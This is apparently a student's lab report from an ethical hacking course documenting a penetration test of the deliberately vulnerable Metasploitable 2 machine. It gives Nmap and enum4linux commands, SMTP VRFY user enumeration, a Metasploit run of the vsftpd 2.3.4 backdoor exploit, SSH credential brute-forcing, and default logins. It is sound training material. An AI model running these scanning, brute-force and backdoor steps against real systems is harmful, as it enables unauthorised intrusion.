

# Vulnerability Assessment & Exploitation of Metasploitable 2

## Final Project Submission

---

### Project Title Page

**Project Title:** Vulnerability Assessment & Exploitation of Metasploitable 2

**Student Name:** Tukaram

**Batch:** WSLC-483

**Course:** Cybersecurity & Ethical Hacking

**Submission Date:** April 2026

---

## 1. Objective of the Assessment

The primary objective of this assessment is to perform a comprehensive Vulnerability Assessment and Penetration Testing operation on Metasploitable 2, a purposely vulnerable Linux virtual machine designed for security training and testing environments.

### Specific Goals:

- Identify open services and ports on the target machine through network scanning
- Enumerate detailed information about running services and potential weak configurations
- Exploit at least 2 critical vulnerabilities using industry-standard tools and techniques
- Gain shell access or obtain sensitive system information to demonstrate successful exploitation
- Document all vulnerabilities, attack vectors, and exploitation outcomes systematically
- Assess risk levels and provide remediation recommendations for each identified vulnerability

### Educational Context:

This project is conducted in a controlled laboratory environment as part of the cybersecurity certification program. Metasploitable 2 is an intentionally vulnerable system designed for learning and practicing penetration testing techniques in a safe, legal manner.

---

## 2. Environment Setup & Tools Used

### 2.1 Laboratory Environment

The entire assessment was conducted in an isolated virtual laboratory environment consisting of:

| Component | Specification |
|-----------|---------------|
| **Attacking Machine** | Kali Linux (Latest Version) |
| **Target Machine** | Metasploitable 2 (Ubuntu-based) |
| **Virtualization Platform** | VMware Workstation / VirtualBox |
| **Network Type** | Host-Only / NAT Network |
| **Target IP Address** | 192.168.164.129 |

### 2.2 Tools Used

The following penetration testing tools were utilized during this assessment:

#### 2.2.1 Network Scanning Tools

| Tool | Purpose | Version |
|------|---------|---------|
| **Nmap** | Port scanning and service enumeration | Latest |

#### 2.2.2 Enumeration Tools

| Tool | Purpose |
|------|---------|
| **enum4linux** | Samba/SMB enumeration and user discovery |

#### 2.2.3 Exploitation Frameworks

| Tool | Purpose |
|------|---------|
| **Metasploit Framework** | Exploitation and post-exploitation |
| **Netcat** | Network connectivity testing and banner grabbing |

#### 2.2.4 Additional Utilities

- SSH Client (OpenSSH)
- FTP Client

### 2.3 Target Machine Credentials

| Parameter | Value |
|-----------|-------|
| **Username** | msfadmin |
| **Password** | msfadmin |

---

## 3. Scanning Results

### 3.1 Initial Discovery

The target machine (Metasploitable 2) was powered on and accessed through the virtualization platform. The IP address was identified using the `ifconfig` command, revealing the target at **192.168.164.129**.


### 3.2 Port Scanning

A comprehensive port scan was performed using Nmap to identify all open ports and running services on the target machine.

**Command Used:**
```bash
nmap -n -sV -p- 192.168.164.129
```

**Scan Parameters:**
- `-n`: Disable DNS resolution
- `-sV`: Service version detection
- `-p-`: Scan all ports (1-65535)

### 3.3 Identified Open Ports and Services

| Port | Service | Version | State |
|------|---------|---------|-------|
| 21 | FTP | vsftpd 2.3.4 | Open |
| 22 | SSH | OpenSSH 4.7p1 | Open |
| 23 | Telnet | - | Open |
| 25 | SMTP | Postfix | Open |
| 80 | HTTP | Apache 2.2.8 | Open |
| 111 | RPCbind | - | Open |
| 139 | NetBIOS-SSN | Samba 3.0.20 | Open |
| 445 | Microsoft-ds | Samba 3.0.20 | Open |
| 512 | exec | - | Open |
| 513 | login | - | Open |
| 514 | shell | - | Open |
| 1099 | Java RMI | - | Open |
| 1524 | Ingreslock | - | Open |
| 3306 | MySQL | 5.0.51a | Open |
| 5432 | PostgreSQL | 8.3 | Open |
| 5900 | VNC | - | Open |
| 6000 | X11 | - | Open |
| 6667 | UnrealIRCd | - | Open |
| 8009 | Apache Jserv | - | Open |
| 8180 | Apache Tomcat | - | Open |


### 3.4 Critical Findings from Scanning

1. **FTP Service (Port 21):** Running vsftpd 2.3.4 - Known vulnerable version with backdoor
2. **SSH Service (Port 22):** OpenSSH 4.7p1 - Outdated version with weak algorithms
3. **SMTP Service (Port 25):** Postfix mail server - Potential user enumeration vector
4. **Multiple High-Risk Services:** Unnecessary services running (Telnet, VNC, X11)

---

## 4. Enumeration Techniques Applied

### 4.1 SMB/NetBIOS Enumeration using enum4linux

enum4linux is primarily used to gather information in the early stages of a penetration test to find potential entry points, such as open shares or weak user enumeration restrictions.

#### 4.1.1 Operating System Information

**Command:**
```bash
enum4linux -o 192.168.164.129
```

**Results:**
- Operating System: Linux (Samba 3.0.20-Debian)
- Server: Unix (Ubuntu)
- SMB Version: 1.0
- Domain: MYGROUP


#### 4.1.2 User Enumeration

**Command:**
```bash
enum4linux -U 192.168.164.129
```

**Discovered Users:**
- root
- daemon
- bin
- sys
- sync
- games
- man
- lp
- mail
- news
- uucp
- proxy
- www-data
- backup
- list
- irc
- gnats
- nobody
- libuuid
- dhcp
- syslog
- klog
- daemon
- msfadmin
- user
- service


### 4.2 SMTP User Enumeration

SMTP enumeration was performed to identify valid users on the mail server, which could be used for further attacks.

**Method 1: Netcat Banner Grabbing**
```bash
nc 192.168.164.129 25
VRFY root
VRFY admin
VRFY msfadmin
```

**Method 2: Metasploit Auxiliary Module**
```bash
use auxiliary/scanner/smtp/smtp_enum
set RHOST 192.168.164.129
set USER_FILE /home/ram/wrk/unames.txt
run
```

---

## 5. Exploitation Details

### 5.1 Exploitation of FTP Service (Port 21)

#### Method 1: Anonymous FTP Login

**Description:** The target FTP server allows anonymous access, which can be exploited to access shared files without authentication.

**Command:**
```bash
ftp 192.168.164.129
```

**Credentials:**
- Username: anonymous
- Password: (empty/press enter)

**Result:** Successfully logged in as anonymous user, providing access to shared FTP directories.


#### Method 2: vsftpd Backdoor Exploitation (Metasploit Framework)

**Description:** The vsftpd 2.3.4 version contains a malicious backdoor in the source code. When a username containing "(any" is specified with a password containing the string "]", the backdoor is triggered, opening a shell on port 6200.

**Vulnerability Details:**
- **CVE:** CVE-2011-2523
- **Severity:** Critical (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
- **Affected Version:** vsftpd 2.3.4

**Exploitation Steps:**

1. Launch Metasploit Framework:
```bash
msfconsole
```

2. Search for vsftpd exploit:
```bash
search vsftpd
```

3. Select the exploit:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Configure options:
```bash
set RHOST 192.168.164.129
show options
```

5. Execute the exploit:
```bash
exploit
```


**Result:** Successful exploitation provided command shell access to the target system with root privileges.


---

### 5.2 Exploitation of SSH Service (Port 22)

#### Description

The Secure Shell Protocol (SSH) is a cryptographic network protocol for operating network services securely over an unsecured network. SSH provides secure authentication and encrypted data communication between two computers.

#### Method: SSH Brute Force Attack

**Description:** SSH service was exploited using credential brute-forcing with username and password wordlists.

**Tools Used:** Metasploit Framework - ssh_login auxiliary module

**Exploitation Steps:**

1. Launch Metasploit Framework:
```bash
msfconsole
```

2. Search for SSH login module:
```bash
search ssh_login
```

3. Select the module:
```bash
use auxiliary/scanner/ssh/ssh_login
```

4. Configure options:
```bash
set RHOST 192.168.164.129
set USERPASS_FILE /home/ram/wrk/upass.txt
set USER_FILE /home/ram/wrk/unames.txt
set USER_AS_PASS true
set STOP_ON_SUCCESS true
```

5. Execute:
```bash
run
```


#### Post-Exploitation: SSH Connection

Using the obtained credentials, SSH connection was established to the target system.

**Command:**
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa msfadmin@192.168.164.129
```

**Note:** The `-o HostKeyAlgorithms=+ssh-rsa` flag is required because Metasploitable 2 uses outdated security protocols (ssh-rsa and ssh-dss) that are disabled by default in modern SSH clients.

**Connection Process:**
1. Enter "yes" to accept the host key fingerprint
2. Enter password: msfadmin (characters won't appear while typing)
3. Successfully authenticated and logged in


---

### 5.3 Exploitation of SMTP Service (Port 25)

#### Description

Simple Mail Transfer Protocol (SMTP) is an application layer protocol used for sending, receiving, and relaying outgoing emails between senders and receivers.

#### Method 1: User Enumeration via Netcat

**Description:** The SMTP server VRFY command can be used to enumerate valid usernames on the system.

**Command:**
```bash
nc 192.168.164.129 25
```

**VRFY Command Usage:**
```bash
VRFY root
VRFY msfadmin
VRFY admin
```

**Response Codes:**
- 250 or 252: User exists
- 550 or 502: Access denied/Unable to verify


#### Method 2: Automated Enumeration via Metasploit

**Description:** Using the Metasploit SMTP enumeration module for automated user discovery.

**Steps:**
```bash
search smtp_enum
use auxiliary/scanner/smtp/smtp_enum
set RHOST 192.168.164.129
set USER_FILE /home/ram/wrk/unames.txt
set VERBOSE true
run
```


---

**Report Generated By:** Tukaram  
**Batch:** WSLC-483  
**Date:** April 2026

---